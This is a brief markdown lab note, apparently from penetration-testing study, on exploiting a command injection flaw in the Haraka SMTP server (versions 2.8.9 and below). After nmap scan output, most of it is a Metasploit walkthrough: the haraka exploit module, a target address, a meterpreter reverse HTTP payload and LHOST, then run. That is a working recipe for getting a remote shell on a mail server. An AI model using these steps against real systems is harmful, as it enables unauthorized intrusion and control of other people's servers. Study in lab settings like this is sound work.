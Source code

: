 # SMTP EXPLOTATION

### simple mail transfer protocol
By default port 25 
can be configured to run on port TCP **465 AND 587**

### explotation HARAKA
```
Haraka is an open source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions V2.8.9 are vulnerable to command injection.
```

## VErsion 2.8.9 smtp and smaller


# DEMO
>msfconsole
>>workspace
>>>setg RHOSTS
>>>db_nmap -sS -sV -sC -O **<ip**
```bash
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 25/tcp open smtp Haraka smtpd 2.8.8
[*] Nmap: MAC Address: 02:42:C0:56:33:03 (Unknown)
```
### exploit
>>>linux/smtp/haraka
>>>set SRV_PRT 9898
>>>set email_to root@attackdefence.text
>>>set Payload linux/x64/meterpreter_reverse_http  
```bash
THIS IS A STAGELESS PAYLOAD
```
>>>set LHOST **<eth1>**
>>>```bash
*tHIS NEEDS 8080 THATS WHY WE CHANGED SRV_PORT TO DIFFERENT ONE*
```
>>> RUN
